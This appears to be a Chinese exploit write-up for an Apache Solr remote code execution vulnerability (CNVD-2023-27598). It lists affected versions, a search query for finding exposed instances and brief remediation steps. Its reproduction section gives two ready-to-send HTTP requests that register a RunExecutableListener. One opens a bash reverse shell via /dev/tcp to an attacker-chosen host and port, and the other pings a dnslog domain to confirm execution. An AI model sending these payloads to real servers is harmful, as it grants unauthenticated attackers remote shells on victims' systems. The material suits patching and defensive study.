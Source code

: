 # 

# Apache Solr 代码执行漏洞 CNVD-2023-27598

## 漏洞描述

Solr 以 Solrcloud 模式启动且可出网时，未经身份验证的远程攻击者可以通过发送特制的数据包进行利用，最终在目标系统上远程执行任意代码。

## 漏洞影响

```
8.10.0 <= Apache Solr < 9.2.0
```

## 网络测绘

```
app="APACHE-Solr"
```

## 漏洞复现

使用postCommit来命令执行

```
POST /solr/demo/config HTTP/1.1
Host: 192.168.1.92:8983
Content-Length: 180
Content-Type: application/json

{"add-listener":{"event":"postCommit","name":"suiyi","class":"solr.RunExecutableListener","exe":"bash","dir":"/bin/","args":["-c", "bash -i >& /dev/tcp/your-ip/9999 0>&1"]}}
```

通过newSearcher命令执行

```
POST /solr/demo/config HTTP/1.1
Host: 192.168.1.92:8983
Content-Length: 170
Content-Type: application/json

{"add-listener":{"event":"newSearcher","name":"newSearcher3","class":"solr.RunExecutableListener","exe":"sh","dir":"/bin/","args":["-c", "ping -c 3 your-dnslog.dnslog.cn"]}}
```

## 漏洞修复

1. 如果未使用 ConfigSets API，请禁用 UPLOAD 命令，将系统属性：configset.upload.enabled 设置为 false ，详细参考：https://lucene.apache.org/solr/guide/8_6/configsets-api.html
2. 使用身份验证/授权，详细参考：https://lucene.apache.org/solr/guide/8_6/authentication-and-authorization-plugins.html
3. 官方已发布漏洞补丁及修复版本，请评估业务是否受影响后，酌情升级至安全版本：
   https://github.com/apache/solr/releases/tag/releases/solr/9.2.0
